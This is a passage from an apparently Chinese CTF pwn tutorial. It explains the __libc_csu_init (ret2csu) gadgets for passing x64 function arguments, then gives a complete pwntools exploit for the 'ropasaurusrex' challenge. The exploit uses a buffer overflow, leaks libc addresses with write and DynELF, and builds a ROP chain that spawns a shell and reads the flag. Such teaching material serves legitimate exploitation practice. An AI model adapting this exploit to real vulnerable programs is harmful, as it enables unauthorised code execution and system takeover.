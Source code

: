 简单的说，就是通过__libc_csu_init函数的两段代码来实现3个参数的传递，这两段代码普遍存在于x64二进制程序中，只不过是间接地传递参数，而不像原来，是通过pop指令直接传递参数。

```python
.text:000000000040075A   pop  rbx  #需置为0，为配合第二段代码的call指令寻址
.text:000000000040075B   pop  rbp  #需置为1
.text:000000000040075C   pop  r12  #需置为要调用的函数地址，注意是got地址而不是plt地址，因为第二段代码中是call指令
.text:000000000040075E   pop  r13  #write函数的第三个参数
.text:0000000000400760   pop  r14  #write函数的第二个参数
.text:0000000000400762   pop  r15  #write函数的第一个参数
.text:0000000000400764   retn
```

第二段代码如下：

```python
.text:0000000000400740   mov  rdx, r13
.text:0000000000400743   mov  rsi, r14
.text:0000000000400746   mov  edi, r15d
.text:0000000000400749   call  qword ptr [r12+rbx*8]
```

这两段代码运行后，会将栈顶指针移动56字节，我们在栈中布置56个字节即可。

这样，我们便解决了write函数在leak信息中存在的问题，具体的应用会放到后面的3道题目中讲。

回过头来，之前那道题虽然是32位程序，但他包含write函数，我们使用DynELF重新做一下：

```python
#coding:utf-8
from pwn import *
context.log_level='debug'

p=process('./ropasaurusrex')
elf = ELF('./ropasaurusrex')

def leak(addr):
    start_addr = 0x08048340
    write_plt = elf.plt['write']
    payload = 140 * 'a' + p32(write_plt) + p32(start_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    leak_addr = p.recv()[:4]
    print("%#x -> %s" %(addr, (leak_addr or '').encode('hex')))
    return leak_addr

d = DynELF(leak, elf =ELF("./ropasaurusrex"))

system_addr = d.lookup('system', 'libc')
read_addr = d.lookup('read', 'libc')

log.info("system_addr = %#x", system_addr)
log.info("read_addr = %#x", read_addr)

binsh_addr = 0x08049000 #给定一个任意的地址，用来存放接下来read读入的/bin/sh
payload1='A'*140+p32(read_addr)+p32(system_addr)+p32(0)+p32(binsh_addr)+p32(8)
p.sendline(payload1)
#gdb.attach(p)
p.sendline('/bin/sh\x00')
p.sendline('ls')
p.sendline('cat flag')
p.interactive()
```
